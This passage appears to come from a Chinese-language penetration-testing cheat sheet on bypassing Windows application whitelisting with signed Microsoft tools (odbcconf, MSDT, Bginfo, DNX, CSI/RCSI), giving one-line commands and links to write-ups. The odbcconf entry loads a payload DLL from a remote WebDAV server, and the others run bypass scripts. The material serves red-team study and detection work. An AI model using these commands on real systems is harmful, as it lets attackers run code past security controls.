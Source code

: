 #### Odbcconf

这个和regsvr32很类似。它可以执行一个显示特定函数的DLL。需要注意的是他不一定需要.dll的后缀名文件。

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
odbcconf -f file.rsp
```

#### MSDT

Microsofts Signed Binary Involved

```powershell
Open .diagcab package
```

Links:

- https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/

#### Bginfo

BgInfo是一个Microsoft实用程序，它可以在桌面背景中直接显示计算机的系统信息。

```powershell
bginfo.exe bginfo.bgi /popup /nolicprompt
```

Links：

- https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
- https://github.com/3gstudent/bgi-creater

#### DNX

 .NET Execution Environment(*DNX*) 是一个SDK 和运行时环境,它包含所有的你需要创建和运行.net应用程序的组件。可以执行C#代码

```powershell
dnx.exe consoleapp
```

Links:

https://enigma0x3.net/2016/11/17/bypassing-application-whitelisting-by-using-dnx-exe/

#### CSI/RCSI

和dnx一样csi和rcsi都可以执行C#代码，但csi是交互式的而rcsi不是。

```powershell
rcs.exe bypass.csx
rcsi.exe bypass.csx
```

Links：

- https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html
- https://enigma0x3.net/2016/11/21/bypassing-application-whitelisting-by-using-rcsi-exe/
